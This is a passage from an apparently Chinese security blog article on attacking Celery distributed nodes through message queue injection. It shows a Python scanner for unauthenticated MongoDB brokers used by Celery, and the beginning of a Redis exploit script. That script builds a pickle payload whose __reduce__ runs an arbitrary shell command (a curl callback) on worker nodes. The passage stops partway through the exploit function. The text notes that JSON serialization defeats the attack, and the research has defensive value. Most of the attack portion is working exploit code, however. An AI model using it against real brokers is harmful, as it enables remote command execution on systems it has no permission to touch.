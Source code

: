 ```python
# celery_broker_mongodb_check.py
...
CELERY_COLLECTIONS = ['messages.routing', 'messages.broadcast']
def run(seed):
    try:
        ip, port = seed.split(':')
    except ValueError as ex:
        ip, port = seed, 27017
    conn = pymongo.MongoClient(ip, int(port), connectTimeoutMS=2000,
                               serverSelectionTimeoutMS=2000)
    dbs = conn.database_names()
    info = dict(succeed=False, results=dict())
    for db in dbs:
        colnames = conn.get_database(db).collection_names()
        for _col in CELERY_COLLECTIONS:
            if any(_col in colname for colname in colnames):
                info['succeed'] = True
                info['results'][db] = colnames
                continue
    return info
...
```

而由于 Celery 在使用 MongoDB 的时候需要指定数据库，所以需要对存在未授权访问的 MongoDB 中的每一个数据库都进行检测，判断其中的集合名称是否符合条件，若符合即可判断其作为了消息队列中间件。

#### 2. 使用脚本进行消息注入攻击分布式节点

使用上面两个脚本在本地环境进行测试：

![]({{ site.url }}/public/img/article/2016-09-22-attacking-distributed-nodes-by-message-queue-injection/14.png)

这里要说明的一个问题就是，不是所有使用了 Celery 分布式框架的应用都配置了 `pickle` 的序列化方式，**若其只配置了 JSON 等其他安全的序列化方式，则就无法利用 Python 反序列化进行命令执行了**。

一个简单的真对 Redis Broker 类型的攻击脚本：

```python
# celery_broker_redis_exp.py
import re
import json
import redis
import pickle
import base64

evil_command = 'curl http://127.0.0.1:8000/{}'

def create_evil_task_body(command, body_encoding='base64'):
    class Command(object):
        def __reduce__(self):
            import os
            return (os.system, (command, ))
    if body_encoding == 'base64':
        return base64.b64encode(pickle.dumps(Command()))

def create_evil_message(body):
    message = {"body": body,"headers": {},"content-encoding": "binary","content-type": "application/x-python-serialize","properties": {"body_encoding": "base64","reply_to": "c8b55284-c490-3927-85c5-c68a7fed0525","correlation_id": "1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe","delivery_info": {"routing_key": "celery","exchange": "celery","priority": 0},"delivery_mode": 2,"delivery_tag": "027bd89a-389e-41d1-857a-ba895e6eccda"}}
    return json.dumps(message)

def exp(seed):
    try:
```